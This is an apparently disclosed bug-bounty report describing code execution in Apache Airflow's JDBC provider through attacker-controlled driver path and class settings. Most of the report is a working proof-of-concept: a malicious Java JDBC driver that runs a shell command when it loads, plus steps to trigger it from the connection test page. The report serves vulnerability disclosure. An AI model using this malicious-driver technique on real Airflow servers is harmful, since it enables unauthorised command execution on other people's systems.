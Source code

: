 # jdbc apache airflow provider code execution vulnerability

## Report Details
- **Report ID**: 2065288
- **URL**: https://hackerone.com/reports/2065288
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-07-12T11:04:09.003Z
- **Disclosed**: 2023-08-26T12:16:59.705Z

## Reporter
- **Username**: kmhlyxj0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
In  airflow.providers.jdbc.hooks.jdbc.JdbcHook, A privilege escalation vulnerability exists in a system due to controllable `Driver Path` and `Driver Class` parameters which cause executing any java code. 

Vulnerability reproduction steps: 
1. create a malicious jdbc driver, like this

```
import java.io.*;
import java.sql.*;
import java.util.Properties;
import java.util.logging.Logger;

public class Test implements Driver {

    static {
        try {
            cmd();
            DriverManager.registerDriver(new Test());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Connection connect(String url, Properties info) throws SQLException {
        return null;
    }

    @Override
    public boolean acceptsURL(String url) throws SQLException {
        try {
            cmd();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        // 验证URL是否为该驱动程序所支持的URL
        return url.startsWith("jdbc:mydb:");
    }

    @Override
    public DriverPropertyInfo[] getPropertyInfo(String url, Properties info) throws SQLException {
        return new DriverPropertyInfo[0];
    }

    @Override
    public int getMajorVersion() {
        return 1;
    }

    @Override
    public int getMinorVersion() {
        return 0;
    }

    @Override
    public boolean jdbcCompliant() {
        return false;
    }

    @Override
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }

    public static void cmd() throws IOException {
        String[] cmd = {"sh", "-c", "whoami"}; 
        Process p = Runtime.getRuntime().exec(cmd);
        InputStream in = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        File outputFile = new File("/tmp/airflow-jdbc.txt");
        BufferedWriter writer = new BufferedWriter(new FileWriter(outputFile));
        String line;
        while ((line = reader.readLine()) != null) {
            writer.write(line);
            writer.newLine();
        }
        writer.close();
    }
}
```
generate a jar package.

2. config jdbc connection
Go to the Connection configuration page. 
Fill in the `driver path` with the path of jar package generated in the previous step. 
Fill in the `driver class` with the value of Test.

3. click on the test button
Click on the test button and it can be observed that the command is executed and a file named airflow-jdbc.txt is generated in the /tmp directory.


This is a screenshot of my email exchange with Airflow developers:

███

## Attachments
No attachments
